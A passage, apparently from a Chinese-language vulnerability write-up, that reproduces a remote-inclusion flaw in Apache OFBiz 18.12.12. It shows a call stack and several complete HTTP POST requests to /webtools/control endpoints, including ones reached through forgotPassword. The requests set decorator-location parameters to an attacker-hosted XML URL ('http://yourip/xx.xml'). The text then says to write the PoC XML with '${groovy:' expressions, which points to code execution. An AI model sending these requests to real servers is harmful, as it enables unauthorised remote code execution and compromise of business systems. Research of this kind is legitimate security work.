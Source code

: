 调用栈如下：

```
getScreenFromLocation:100, ScreenFactory (org.apache.ofbiz.widget.model)
renderReferencedScreen:192, ScreenFactory (org.apache.ofbiz.widget.model)
renderWidgetString:876, ModelScreenWidget$DecoratorScreen (org.apache.ofbiz.widget.model)
renderSubWidgetsString:103, ModelScreenWidget (org.apache.ofbiz.widget.model)
renderWidgetString:285, ModelScreenWidget$Section (org.apache.ofbiz.widget.model)
renderScreenString:164, ModelScreen (org.apache.ofbiz.widget.model)
render:140, ScreenRenderer (org.apache.ofbiz.widget.renderer)
render:102, ScreenRenderer (org.apache.ofbiz.widget.renderer)
render:113, MacroScreenViewHandler (org.apache.ofbiz.widget.renderer.macro)
renderView:1066, RequestHandler (org.apache.ofbiz.webapp.control)
doRequest:741, RequestHandler (org.apache.ofbiz.webapp.control)
doGet:212, ControlServlet (org.apache.ofbiz.webapp.control)
doPost:85, ControlServlet (org.apache.ofbiz.webapp.control)
...
```

据如上结论，我们可以构造的请求大致如下：

```
POST /webtools/control/main/findTemporalExpression HTTP/1.1
Host: xx:8443
Content-Type: application/x-www-form-urlencoded

tempExprDecoratorLocation=http://yourip/xx.xml
```

但根据配置文件，理论上在framework/webtools/widget目录下，包含`location="${parameters.`字符且不为`${parameters.mainDecoratorLocation}`（因为mainDecoratorLocation由系统传递，会覆盖用户传递）的配置文件都满足漏洞条件，例如：TempExprScreens.xml、StatsScreens.xml（本文使用18.12.12版本进行复现，版本不同可能不太一样）。

并且结合上文提到的保证图 5中的eventReturn为true即可，所以符合条件的请求不止一个：

```
POST /webtools/control/main/ViewMetrics HTTP/1.1
Host: xx:8443
Content-Type: application/x-www-form-urlencoded

statsDecoratorLocation=http://yourip/xx.xml
```

```
POST /webtools/control/forgotPassword/findTemporalExpression HTTP/1.1
Host: xx:8443
Content-Type: application/x-www-form-urlencoded

tempExprDecoratorLocation=http://yourip/xx.xml
```

更多就不再一一举例。

**4 xml内容的构造**

参考资料

由于指定的url会继续被当作modelScreen进行解析，所以参照代码中的写法即可构造PoC，在代码中搜索`"${groovy:`相关代码，照着写即可，如图12所示。
